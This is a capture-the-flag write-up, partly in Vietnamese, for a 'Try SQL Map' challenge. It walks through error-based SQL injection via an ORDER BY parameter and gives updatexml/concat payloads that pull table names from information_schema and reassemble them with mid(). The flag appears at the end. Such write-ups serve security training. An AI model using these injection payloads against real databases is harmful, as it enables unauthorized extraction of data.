 # KMA CTF - Try SQL Map

**hints**: The length of flag table name > 32 characters

## PHÂN TÍCH
Như tên bài , thì đây là bài SQLi ở lệnh ORDER BY: `http://try-sqlmap.ctf.actvn.edu.vn/?order=id`

Câu truy vấn có thể sẽ như sau:

```
SELECT column_name from table_name order by $_GET[order]
```

`Quick sqlmap` --> sql injection `error based`!

**Payload**:
```
updatexml(0,concat(0xa,(select table_name from information_schema.tables limit 1)),0)
```
**Result**:
```
XPATH syntax error: '
flahga123456789xxsxx012xxxxxxxx'
```

Because of the length, we use mid function in MySQL to cut the rest of flag that are not fully obtain.

```
updatexml(0,concat(0xa,(select mid(table_name,20,25) from information_schema.tables limit 1)),0)
```
**Result**:
```
XPATH syntax error: '
x012xxxxxxxxx34567xx1'
```

Ok, merge it together: `flahga123456789xxsxx012xxxxxxxxx34567xx1`, we got the table name.

Same with column and flag using column_name from information_schema.tables --> select column_name from flahga123456789xxsxx012xxxxxxxxx34567xx1....

**flag**: `KMACTF{X_Ooooooooooooorder_By_Noooooooooooooooooooone_SQLMaaaaaaaaaaaap?!!!!!!!!!!!!}`

**Góc than thở**:
```
Check kĩ liệu payload có lỗi, hàm nào thực sự bị block(simplify it
```
